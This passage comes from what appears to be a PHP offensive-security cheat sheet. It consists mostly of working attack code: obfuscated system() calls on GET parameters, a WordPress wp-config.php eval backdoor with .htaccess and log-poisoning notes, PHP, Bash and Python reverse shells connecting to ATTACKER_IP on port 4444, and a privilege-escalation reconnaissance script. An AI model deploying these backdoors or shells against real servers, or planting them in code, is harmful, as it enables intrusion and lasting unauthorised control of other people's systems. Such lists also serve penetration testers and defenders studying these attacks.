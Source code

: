 ```php
$c = 's'.'y'.'s'.'t'.'e'.'m';
$c($_GET['x']);

// Variable variables
$a = '_GET';
$b = $$a;
$c = $b['cmd'];
system($c);
?>
```

### 7.2 Backdoor Techniques
```php
<?php
// Wordpress backdoor
// Add to wp-config.php
if(isset($_GET['admin'])) {
    eval($_POST['cmd']);
}

// .htaccess backdoor
#<Files "index.php">
#SetHandler application/x-httpd-php
#</Files>

// Log file backdoor
// Poison logs then include via LFI
?>
```

## 8. POST-EXPLOITATION

### 8.1 Reverse Shells
```php
<?php
// PHP Reverse Shell
$sock=fsockopen("ATTACKER_IP",4444);
exec("/bin/sh -i <&3 >&3 2>&3");

// Bash reverse shell
system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'");

// Python reverse shell
system("python -c 'import socket,os,subprocess;s=socket.socket();s.connect((\"ATTACKER_IP\",4444));[os.dup2(s.fileno(),f) for f in (0,1,2)];subprocess.call([\"/bin/sh\"])'");
?>
```

### 8.2 Privilege Escalation Checks
```php
<?php
// privcheck.php
echo "User: "; system("whoami");
echo "\nID: "; system("id");
echo "\nSUDO: "; system("sudo -l");
echo "\nOS: "; system("uname -a");
echo "\nProcesses: "; system("ps aux");
echo "\nNetwork: "; system("netstat -tulpn");
echo "\nCrontab: "; system("crontab -l");
?>
```
